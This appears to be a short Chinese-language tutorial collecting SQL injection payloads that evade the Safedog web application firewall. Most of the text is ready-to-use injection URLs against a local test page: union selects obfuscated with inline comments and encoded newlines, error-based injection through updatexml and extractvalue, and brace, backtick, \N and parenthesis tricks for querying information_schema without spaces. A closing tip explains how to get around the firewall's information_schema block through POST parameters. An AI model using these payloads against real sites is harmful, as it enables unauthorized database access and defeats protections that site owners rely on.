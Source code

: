 

![](https://ae01.alicdn.com/kf/HTB1IdeUe.GF3KVjSZFvq6z_nXXaT.jpg)

- 对于数字型注入,可以将其转换成浮点型
- 联合查询绕waf,%0a为换行符经过URL编码得到的,可以通过换行符进行绕过,
- 函数中可以插入任何混淆字符绕过waf
- 另外使用-1可以省去空格绕过waf

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,user--%0a()%23
```

![](https://ae01.alicdn.com/kf/HTB1CzORe3aH3KVjSZFjq6AFWpXa1.jpg)

基于报错信息的注入绕安全狗

```
http://127.0.0.1/test.php?id=1' and /*!12345updatexml!*/(1,concat(0x7e,version()))%23
http://127.0.0.1/test.php?id=1' and /*!12345extractvalue!*/(1,concat(0x7e,version()))%23
```

### 绕过select from

使用大括号去绕过

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4From{information_schema.tables}
```

![](https://ae01.alicdn.com/kf/HTB1t6WTe75E3KVjSZFCq6zuzXXaI.jpg)

使用反引号去绕过

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4 From`information_schema.tables`
```

使用\N去绕过

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,\Nfrom information_schema.tables
```

括号法去绕过

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,From(((information_schema.tables)))
```

也可以组合起来

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4\Nfrom{a`information_schema`.tables}
```

这些都是去掉空格的合法语句,当然如果不拦截/**/或/*!*/的话,也可以尝试这两个

提示，安全狗默认不开启对information_schema的拦截，如果开启了，那么就得找支持post传递数据的注入点了，post下不拦截information_schema这个关键词。


